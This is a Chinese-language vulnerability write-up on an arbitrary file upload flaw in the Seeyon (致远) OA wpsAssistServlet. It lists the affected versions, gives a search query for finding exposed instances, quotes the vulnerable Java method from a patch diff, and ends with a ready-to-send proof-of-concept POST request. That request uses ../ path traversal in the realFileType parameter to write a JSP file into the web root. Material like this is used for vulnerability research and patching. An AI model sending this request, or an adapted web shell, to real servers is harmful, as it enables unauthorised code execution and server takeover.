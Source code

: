 # 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

<a-checkbox checked>致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)</a-checkbox></br>

<a-checkbox checked>致远OA G6、G6N (V8.1、V8.1SP1)</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA" && title="V8.0SP2"</a-checkbox></br>

## 漏洞复现

产品主页

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658806205627-07ce1bd0-adf1-4aae-9f3a-a6885bf8bfd7.png)

下载补丁220706-S004 ，对比修改的文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658806584119-32f25f71-5351-4781-ab5b-7435032ec7ec.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```php
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658806789623-07df56ba-fe62-4c0d-9374-11cfc3077bdf.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658807010120-47006179-52db-4d27-8e18-fe00dbc8482a.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658809800167-1f074e5b-88b2-468c-b29f-794f8d5ddfaa.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```php
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658810152744-1a171b0d-25f0-4c99-9ff4-4202c66d40b3.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658810231876-43f625d6-dc8f-421d-96ae-f753722bf2c5.png)